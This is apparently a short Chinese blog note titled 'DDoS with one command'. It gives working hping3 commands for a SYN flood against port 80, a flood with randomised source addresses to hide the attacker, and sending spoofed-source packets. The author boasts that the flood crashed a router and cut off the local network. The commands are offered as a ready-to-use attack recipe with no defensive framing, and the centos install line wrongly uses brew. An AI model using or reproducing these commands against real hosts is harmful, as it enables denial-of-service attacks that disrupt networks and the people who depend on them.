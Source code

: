 ```yaml
---
title: 一条命令实现DDOS
tags: 技术
---
```


# 一条命令实现DDOS攻击

	这个工具可太强了，一会就把路由器发崩溃了，局域网的电脑也连不上了

# 工具
1. hping3

```shell
# debian
apt install hping3
# mac
brew install hping
# centos
brew install hping3
```

# SYN DDOS攻击

	工具使用方法
```shell
# -S specifies sending SYN packets
# -p 80 targets port 80
# -i u20 waits 20 microseconds between packets = 50,000
# packets per second
sudo hping3 -i u20 -S -p 80 -c 50000 ip(x.x.x.x)
```

# 隐藏自身IP地址

	模拟出多个IP攻击主机的情况
	其实SYN攻击，只需要发送SYN包，返回的包根本不处理
	所以SYN包的source_address可以随机填写

```shell
# --rand-source    random source address mode
# --flood	   sent packets as fast as possible
sudo hping3 --rand-source -flood -S -p 80 ip(x.x.x.x)
```

# 其它
1. hping3还可以IP欺骗
	类似arp投毒，原理都很简单，发送假的本机IP
```shell
# 发送三次SYN包到<target IP>,原本应该返回到本机，但是现在返回到了<spoofed IP>
hping3 -S <target IP> -a <spoofed IP> -c 3
```